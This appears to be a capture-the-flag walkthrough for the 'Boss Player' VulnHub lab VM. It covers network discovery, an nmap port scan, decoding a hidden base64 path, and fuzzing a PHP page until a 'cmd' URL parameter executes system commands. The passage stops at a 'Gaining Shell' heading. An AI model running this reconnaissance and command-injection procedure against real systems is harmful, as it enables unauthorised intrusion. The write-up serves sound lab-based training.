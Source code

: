 # Boss Player CTF

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:12	(Unknown: locally administered)
192.168.56.100	08:00:27:16:f6:de	PCS Systemtechnik GmbH
192.168.56.123	08:00:27:de:8c:54	PCS Systemtechnik GmbH
```

let's scan the ip address `192.168.56.123`

### 2.Enumeration

```bash
root@kali:nmap -sT -sV -v -p- -oN nmap.out 192.168.56.123
Host is up (0.00060s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:DE:8C:54 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

check web page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/53d19546-781b-4327-ba96-1a53c7cd6d75)

check source page:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2d30e9b0-1ca1-4b34-bfe0-d91c54c69ae9)

let's decode it :

```bash
root@kali: echo -n 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d | base64 -d | base64 -d
workinginprogress.php
```

navigate to this new address : `http://192.168.56.123/workinginprogress.php`

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/216ba80e-f0db-4fe0-aee0-e121c1be5610)

in this page we need to fuzz for different paramteters to find the correct one, i use burp suit for this and afew common paramters:

and finally found the correct paramter `cmd` and `id` command that is executed on the system
```text
http://192.168.56.123/workinginprogress.php?cmd=id
```

### 3.Gaining Shell





















